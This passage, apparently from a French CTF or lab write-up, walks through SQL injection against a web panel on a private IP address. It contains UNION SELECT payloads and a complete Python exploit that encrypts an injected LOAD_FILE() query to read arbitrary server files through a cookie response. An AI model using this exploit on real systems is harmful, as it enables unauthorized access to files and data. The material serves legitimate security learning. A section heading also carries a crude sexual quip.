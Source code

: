 
On reprend le script précédent en modifiiant juste la liste des payloads :  

```python
payloads = [
    "' UNION SELECT 'encodeme',NULL,NULL#",
    "' UNION SELECT NULL,'encodeme',NULL#",
    "' UNION SELECT NULL,NULL',encodeme'#"
    ]
```

Pour le second cas (la chaîne *encodeme* en seconde position) le script me retourne un *Set-Cookie response=MnN4dXlyc3tzLTU%3D* ce qui une fois décodé correspond à :  

```
$encodeme;#
```

Un préfixe et un suffixe sont rajoutés, mais le principal est que l'on n'est finalement pas en présence d'une injection en aveugle :)  

I've imagined her naked plenty times, but never like this
---------------------------------------------------------

Ni une ni deux, je code un exploit me permettant de lire un fichier sur le système en injecter un `LOAD_FILE()` :  

```python
import requests
import base64
import sys
import urllib

arg = 'page'
key = "test"

def encrypt(s):
    e = ""
    for c in s:
        x = ord(c)
        for k in key:
            x = x ^ ord(k)
        e = e + chr(x)
    return base64.b64encode(e)

def decrypt(s):
    s2 = base64.b64decode(s)
    e = ""
    for c in s2:
        x = ord(c)
        for k in key:
            x = x ^ ord(k)
        e = e + chr(x)
    return e

url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()
payload = "' UNION SELECT NULL,LOAD_FILE('{0}'),NULL#".format(sys.argv[1])
d = {
        "val": base64.b64encode(key),
        arg: encrypt(payload)
    }
r = sess.post(url, data=d, headers=hdrs, timeout=3)
data = urllib.unquote(r.headers['set-cookie'].split("=", 1)[1])
print decrypt(data)
```
